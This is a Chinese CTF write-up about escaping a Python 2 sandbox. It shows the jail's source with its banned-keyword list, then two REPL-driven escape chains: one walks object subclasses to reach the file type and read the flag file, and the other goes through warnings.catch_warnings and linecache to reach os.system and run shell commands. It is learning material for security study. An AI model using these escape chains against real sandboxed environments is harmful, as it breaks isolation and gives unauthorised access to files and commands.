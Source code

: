 ```yaml
---
title: python sandbox escape
date: 2016-09-16 11:33:11
tags: 
  - ctf
categories: notes
---
```


# 概述

前几天的华山杯出了一道python的沙盒逃逸，感觉挺有意思的。在网上搜索了一下，发现很早就出过这种类型的题，源码都差不多。学习了一下思路，这里总结一下：）

<!-- more -->

# 介绍

沙盒源码如下：
```python
#!/usr/bin/env python

from __future__ import print_function

print("Welcome to my Python sandbox! Enter commands below!")

banned = [  
    "import",
    "exec",
    "eval",
    "pickle",
    "os",
    "subprocess",
    "kevin sucks",
    "input",
    "banned",
    "cry sum more",
    "sys"
]

targets = __builtins__.__dict__.keys()  
targets.remove('raw_input')  
targets.remove('print')  
for x in targets:# 去除所有内置函数除print raw_input
    del __builtins__.__dict__[x]

while 1:  
    print(">>>", end=' ')
    data = raw_input()

    for no in banned:
        if no.lower() in data.lower():
            print("No bueno")
            break
    else: # this means nobreak
        exec data
```
不能出现banned列表中的字符，但是需要读取flag文件内容。
# 原理

绕过前面的限制，我们来一步一步看payload

### 方法一

```
>>> [].__class__
<type 'list'>
>>> {}.__class__
<type 'dict'>
>>> ().__class__
<type 'tuple'>
```
首先python的内置对象有一个__class__属性来存储类型，我们往上找他的父类使用__base__属性
```
>>> {}.__class__.__base__
<type 'object'>
>>> ().__class__.__base__
<type 'object'>
>>> [].__class__.__base__
<type 'object'>
```
可以看到返回object对象，因为python中一切均为对象，均继承object对象，得到object之后我们就可在通过属性__subclasses__来查看object的子类（包括所有的内置类）
```
>>> [].__class__.__base__.__subclasses__()
[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <type 'dict_keys'>, <type 'dict_items'>, <type 'dict_values'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]
```
回到我们的主要目的上，我们需要读取flag文件中的内容，在这些子类中有哪些是可以用来读取文件内容的呢？答案是file子类，首先查找一下file子类的位置。
```
>>> [].__class__.__base__.__subclasses__().index(file)
40
```
这样我们就可以通过这个来建立一个file类的别名读文件啦：）
```
>>> f=[].__class__.__base__.__subclasses__()[40]
>>> f('./flag.txt').read()
```
？？？没有任何内容打印出来，但是他没有报错说明存在flag.txt文件，我们尝试用他给的print函数来打印
```
>>> print(f('./flag.txt').read())
This is a Flag{enjoy_yourself_ctfer}
```
得到flag
### 方法二

同样的还有一种方法就是使用os模块来执行系统命令system，但是os被屏蔽
```
>>> import os
No bueno
```
我们得想其他办法来获取shell。通过上面的思路，我们需要找一个子类他能调用os模块，这里用到了`warnings.catch_warnings`类
```
>>> import warnings
>>> [].__class__.__base__.__subclasses__().index(warnings.catch_warnings)
59
>>> [].__class__.__base__.__subclasses__()[59]
<class 'warnings.catch_warnings'>
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys()
['filterwarnings', 'once_registry', 'WarningMessage', '_show_warning', 'filters', '_setoption', 'showwarning', '__all__', 'onceregistry', '__package__', 'simplefilter', 'default_action', '_getcategory', '__builtins__', 'catch_warnings', '__file__', 'warnpy3k', 'sys', '__name__', 'warn_explicit', 'types', 'warn', '_processoptions', 'defaultaction', '__doc__', 'linecache', '_OptionError', 'resetwarnings', 'formatwarning', '_getaction']
```
接下来再找`linecache`
```
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals.keys().index('linecache')
25
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.keys()
['updatecache', 'clearcache', '__all__', '__builtins__', '__file__', 'cache', 'checkcache', 'getline', '__package__', 'sys', 'getlines', '__name__', 'os', '__doc__']
```
可以看到这里可以调用os模块，接下来就调用system函数了
```
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12]
<module 'os' from '/usr/lib/python2.7/os.pyc'>
>>> [].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12].__dict__.keys().index('system')
144
```
整理一下
```
>>> a=[].__class__.__base__.__subclasses__()[59].__init__.func_globals['linecache'].__dict__.values()[12]
>>> a
<module 'os' from '/usr/lib/python2.7/os.pyc'>
>>> s=a.__dict__.keys().index('system')
>>> s
144
>>> s=a.__dict__.keys()[144]
>>> s
'system'
>>> s=a.__dict__.values()[144]
>>> s('pwd')
/home/xxxx/Desktop/code/python-code/test
```
好了现在可以执行系统命令了，cat一下flag
```
>>> s('cat flag.txt')
This is a Flag{enjoy_yourself_ctfer}
```

# 总结

通过上面的python沙盒逃逸，发现读python官网手册还是很有必要的，找个时间一点一点看：）共勉

# 参考

https://hexplo.it/escaping-the-csawctf-python-sandbox/


